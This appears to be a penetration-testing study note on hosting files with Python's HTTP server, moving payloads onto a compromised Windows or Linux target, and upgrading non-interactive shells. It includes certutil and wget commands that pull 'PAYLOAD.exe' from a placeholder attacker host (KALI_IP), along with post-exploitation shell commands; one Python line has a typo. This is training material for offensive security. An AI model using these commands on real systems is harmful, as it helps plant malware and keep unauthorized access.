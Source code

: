 #### Web server with python ####
+ Python comes with a built-in module known as SimpleHTTPServer(python2) and http.server (python3), that can be used to facilitate a simple HTTP server that gives you standard GET and HEAD request handlers 
+ This module can be used to host files in any directory of your system, and can be implemented through a single command in your terminal 
	+ Will host the files of the current directory 
	+ Will show information about request made

#### Python scripts ####
+ <mark style="background: #ADCCFFA6;">Python2</mark>: `python -m SimpleHTTPServer 80` 
+ <mark style="background: #BBFABBA6;">Python3</mark>: `python3 -m http.server 80`
	+ Where 80 specifies the desired port to host on 

### Transferring Files to The Target ###

#### Windows ####
+ One access is made on the target, should navigate to the <mark style="background: #FFB86CA6;">Temp</mark> directory in `C:\\`
	+ Will make one with `mkdir Temp` if one is not available 
+ Will now host the file we want to transfer with the web server python script
+ Can download the file with the <mark style="background: #FFF3A3A6;">certutil</mark> utility 
	+ `certutil -urlcache -f http://KALI_IP/PAYLOAD.exe NAME.exe 
	+ `-f` specifies a file download 
	+ `NAME` is what it will be downloaded as on the windows system 

#### Linux ####
+ One access is made on the target, should navigate to the <mark style="background: #FFB86CA6;">Temp</mark> directory in `/tmp/`
+ Will now host the file we want to transfer with the web server python script
+ Can download the file with the <mark style="background: #D2B3FFA6;">wget</mark> utility 
	+ `wget http://KALI_IP/PAYLOAD.exe`


## Shells ##

### Upgrading Non-Interactive Shells ###

#### Non-Interactive Shells ####
+ These are the shells received that only **show a blank line** (no username or directory)
+ can use get a bash session with
	+ `/bin/bash -i` (under the assumption that bash is installed)
+ Can display the list of shells with
	+ `cat /etc/shells` 
+ Can use python as a shell
	+ See if it is installed: `python --version` 
	+ Start a bash session: `python -c 'import pyt; pty.spawn("/bin/bash")'
+ Can also use perl or ruby if they are installed 
+ Should display the <mark style="background: #BBFABBA6;">environment variables</mark> after and upgrade with: `env`
	+ If there is no PATH variable, should make one with `export PATH=/usr/local/sbin:/user/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
		+ This is the paths to the executable 
	+ set the term if needed with: `export TERM=xterm` 
	+ Make the shell variable: `export SHELL=bash` 
